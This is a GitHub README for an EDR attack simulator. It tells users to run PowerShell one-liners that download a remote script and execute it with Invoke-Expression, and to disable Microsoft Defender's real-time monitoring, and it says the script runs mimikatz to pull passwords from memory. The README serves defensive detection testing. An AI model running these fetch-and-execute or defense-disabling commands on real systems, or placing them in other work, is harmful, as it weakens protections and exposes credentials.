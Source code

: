 ## Datto EDR Behavioral Attack Simulator
**Platform:** Microsoft Windows 7+ or Server 2008+\
**Powershell Version:** 3.0+\
**.NET Version:** 4.5+

*This script will execute several MITRE ATT&CK adversarial behaviors and add several footholds/Autoruns which are pointed at non-malware (calculator and cmd.exe).  The only malicous software run is mimikatz (steals passwords from memory) which will not persist. The following command is all you need.  Run it on any windows system from within Powershell (Administrator-level) and it will download this script and execute it.*

---
## Run Attack Script

#### From Powershell:
```
[System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript.ps1")
```

### OR

#### From outside Powershell (like in cmd.exe or a batch script):
```
powershell.exe -ExecutionPolicy bypass -noprofile -nologo -command { [System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript.ps1") }
```

*WARNING: This script will leave your system in a messy state with some persist footholds set to launch calculators at varying times in the future. Run the cleanup script to remove these.*

 
---
---
---
## Disable Defender (Endpoint Protection)

*While the script will attempt to disable Microsoft Defender's realtime protection in the evasion step, you may need to proactively disable your endpoint protection prior to running this initial command to let the initial script run:*

#### Disable Microsoft Defender's realtime Monitoring:
```
powershell.exe -command 'Set-MpPreference -DisableRealtimeMonitoring $true'
```

#### Restore Microsoft Defender's realtime monitoring:
```
powershell.exe -command 'Set-MpPreference -DisableRealtimeMonitoring $false'
```

---

## Cleanup Script:
*Some persist footholds are left on systems in order to test non-realtime foothold scanning. Run this to remove them*

#### From Powershell:
```
[System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript_fullrestore.ps1")
```

### OR

#### From outside Powershell (like in cmd.exe or a batch script):
```
powershell.exe -ExecutionPolicy bypass -noprofile -nologo -command { [System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript_fullrestore.ps1") }
```
